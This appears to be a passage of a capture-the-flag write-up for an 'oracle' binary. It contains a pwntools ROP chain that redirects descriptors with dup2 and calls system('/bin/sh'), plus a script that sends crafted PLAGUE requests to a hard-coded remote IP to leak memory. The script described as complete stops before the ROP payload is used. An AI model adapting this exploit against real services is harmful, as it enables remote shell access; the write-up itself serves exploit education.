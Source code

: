 ```
payload = flat(
    b'A' * offset, pop_rdi, 0x6, pop_rsi, 0x0, dup2,
    pop_rdi, 0x6, pop_rsi, 0x1, dup2,
    pop_rdi, binsh, ret, system_addr  # Craft the final ROP chain to spawn a shell
)
io.send(payload + b'\r\n\r\n')
```

Find below the entire code that gets the job done. The pwn script was adapted and comprehensively commented in great depth with multiple print statements during execution. Run it without any arguments to execute it locally or run it with REMOTE argument to have it run remotely.

```python
#!/usr/bin/env python3

from pwn import *

# Set up the binary context for pwntools
context.binary = elf = ELF('./oracle')
context.log_level = 'error'  # Reduce output verbosity

# Function to establish a connection with the target
def get_connection():
    # Connect to the remote target if specified, otherwise connect locally for testing
    if args.REMOTE:
        return remote("94.237.54.170", 47106)
    else:
        return remote("localhost", 9001)

# Function to send the PLAGUE command with controlled parameters
def plague(target_competitor: str, include_plague_target: bool, content_length: int = 1000):
    io = get_connection()
    # Construct the command with the target competitor's name
    command = b'PLAGUE ' + target_competitor.encode() + b' blah\r\n'
    # Specify the Content-Length header for the subsequent data
    content_length_header = b'Content-Length: ' + str(content_length).encode() + b'\r\n'
    # Conditionally include the Plague-Target header based on the flag
    plague_target_header = b'Plague-Target: blah' if include_plague_target else b''
    # End of headers and start of the actual data payload
    end_of_headers = b'\r\n\r\n'
    # The null byte to indicate the end of the request
    end_of_request = b'\x00'

    # Combine all parts to form the full payload
    full_payload = command + content_length_header + plague_target_header + end_of_headers + end_of_request

    # Print the payload being sent
    print("Sending payload:")
    print(full_payload)

    # Send the constructed payload
    io.send(full_payload)
    data = io.recvline()
    if not include_plague_target:
        data += io.recvline()
        data += io.recvline()
    io.close()
    return data

# Trigger the vulnerability and receive the initial leak
plague("blah", True)
data = plague("blah", False, content_length=64)
print(f"Received data: ", data)
```